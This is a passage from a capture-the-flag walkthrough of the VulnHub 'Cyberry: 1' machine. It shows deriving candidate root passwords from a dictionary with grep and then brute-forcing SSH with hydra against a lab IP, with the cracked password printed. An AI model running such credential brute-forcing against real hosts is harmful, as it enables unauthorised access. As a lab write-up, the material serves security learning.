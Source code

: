 The first word must contain the following:

* "che" at the beginning; and
* one "b" (another "b" is in "baca"); or
* one "m"; or
* one "w"

I use the following command to find the first word—by eliminating the characters that shouldn't appear, and if it's a word from a dictionary.

```
# for word in $(grep -E '^che' /usr/share/dict/words | tr -cd 'chebmw\n' | sort | uniq | tr '\n' ' '); do grep -Eo "^$word$" /usr/share/dict/words; done
chew
```

The last word must contain the following:

* one "b" (another "b" is in "baca"); or
* at least one "e" (another "e" is in "che"); or
* one "m"; and
* "rry" at the end


Similarly, I use the following command to find the last word.

```
# for word in $(grep -E 'rry$' /usr/share/dict/words | tr -cd 'bemrry\n' | sort | uniq | tr '\n' ' '); do grep -Eo "^$word$" /usr/share/dict/words; done
berry
merry
```

It's now trivial to find the remaining word. When the last word is "berry", the remaining word has to be "me" to meet the constraints. Conversely, when the last word is "merry" the remaining word has to be "be".

Armed with this information, there are 4 possible outcomes that meet all the constraints.

```
chewbacameberry
chewmebacaberry
chewbacabemerry
chewbebacamerry
```

One of the above has to be the `root` password. Using `hydra`, verifying the password is simple.

```
# hydra -l root -P passwords.txt -f ssh://192.168.198.128
[22][ssh] host: 192.168.198.128 login: root password: chewbacabemerry
```

### I Know the `root` Dance

![root-dance.png](/assets/images/posts/cyberry-1-walkthrough/cyberry-18.png)

:dancer:

[1]: https://www.vulnhub.com/entry/cyberry-1,217/
[2]: https://twitter.com/@cyberrysec
[3]: https://www.vulnhub.com
[4]: https://en.wikipedia.org/wiki/Brainfuck
[5]: https://copy.sh/brainfuck/

*[PMA]: phpMyAdmin

